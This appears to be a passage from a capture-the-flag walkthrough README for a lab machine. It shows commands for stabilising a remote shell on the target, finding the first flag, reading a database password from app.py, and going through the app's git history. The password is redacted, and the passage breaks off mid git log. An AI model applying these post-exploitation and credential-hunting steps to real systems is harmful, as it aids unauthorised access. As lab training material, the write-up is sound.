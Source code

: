 If your shell is fragile you can strengthen it using the following commands:
*On the remote server:*  
`python3 -c 'import pty;pty.spawn("/bin/bash")'` 
CTRL-Z  
*On your local system:* 
`echo $TERM` (my result = xterm-256color)  
`stty -a` (note rows and columns (45 x 175))  
`stty raw -echo`  
`fg`  
*Back on the remote server:*  
`reset`  
`xterm`  
`export TERM=xterm`  
`export SHELL=/bin/bash`  
`stty rows 45 columns 175` (again, use whatever you got from `stty -a`)  
`reset`

You should now have a proper shell with grep and nano capabilities.

Using `ls` in the mcskidy directory you will find user.txt and the first flag.

<p align="left">
  <img height=300 img src=./readme_assets/flag1.PNG/>
</p>

Looking at app.py in the app directory you see mcskidy's password.
```
MySQL configuration
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'mcskidy'
app.config['MYSQL_PASSWORD'] = '[REDACTED]'
app.config['MYSQL_DB'] = 'elfimages'
mysql = MySQL(app)
```

Looking further through the mcskidy directory we find /mcskidy/app/.git which gives us some very usefull info.

Use `git log` to to show all of the commits.

```
commit c23b1ae2d5c55dd73f26c2176c0d460e964f8b7b (HEAD -> master)
Author: mcskidy <mcskidy@proddb>
Date:   Thu Nov 2 15:41:22 2023 +0000

    Added new image and made website text more clearer

commit 71eabc70aaa548ac96f850aaf5663633417079db
Author: mcskidy <mcskidy@proddb>
Date:   Thu Oct 19 20:03:27 2023 +0000

    Fixed images MIME type and removed PDF

commit c1a0b22905cc0da0b5ad88c124125efa626013af
Author: mcskidy <mcskidy@proddb>
Date:   Thu Oct 19 20:02:57 2023 +0000

```